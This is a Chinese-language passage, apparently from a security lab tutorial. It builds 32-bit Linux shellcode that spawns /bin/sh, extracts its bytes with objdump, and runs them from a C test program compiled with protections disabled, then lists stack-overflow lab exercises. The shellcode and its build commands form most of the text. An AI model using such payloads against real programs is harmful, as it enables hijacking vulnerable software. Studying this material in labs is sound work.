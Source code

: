 保存为shell.asm，使用nasm编译，链接，运行（nasm可以使用 sudo apt-get install nasm 进行安装）

```shell
$ nasm -f elf32 shell.asm -o shell.o
$ ld -m elf_i386 -o shell shell.o
$ ./shell
$ echo u got it
u got it
```

成功了，使用objdump提取

```assembly
$ objdump -d shell
shell:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:   31 c0                   xor    %eax,%eax
 8048062:   50                      push   %eax
 8048063:   68 2f 2f 73 68          push   $0x68732f2f
 8048068:   68 2f 62 69 6e          push   $0x6e69622f
 804806d:   89 e3                   mov    %esp,%ebx
 804806f:   50                      push   %eax
 8048070:   53                      push   %ebx
 8048071:   89 e1                   mov    %esp,%ecx
 8048073:   31 d2                   xor    %edx,%edx
 8048075:   b0 0b                   mov    $0xb,%al
 8048077:   cd 80                   int    $0x80
```

这样就提取到了,下面可以写个c程序验证一下。

```shell
#include <stdio.h>
char shellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";
int main()
{
    void (*fp) (void);
    fp=(void *)shellcode;
    fp();
}

$ gcc auth.c -fno-stack-protector -o auth -z execstack -m32
$ ./auth
$ echo u got it
u got it
```

**栈溢出之篡改邻近变量**

1. 通过-fno-stack-protector和-m32参数从gcc编译stack0.c文件。
2. 运行编译后的程序，通过缓冲区溢出修改与字符串数组相邻的变量，得到输出"you     have changed the 'modified' variable"
3. 运行stack1程序，通过栈溢出得到输出"you     have correctly got the variable to the right value"

缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
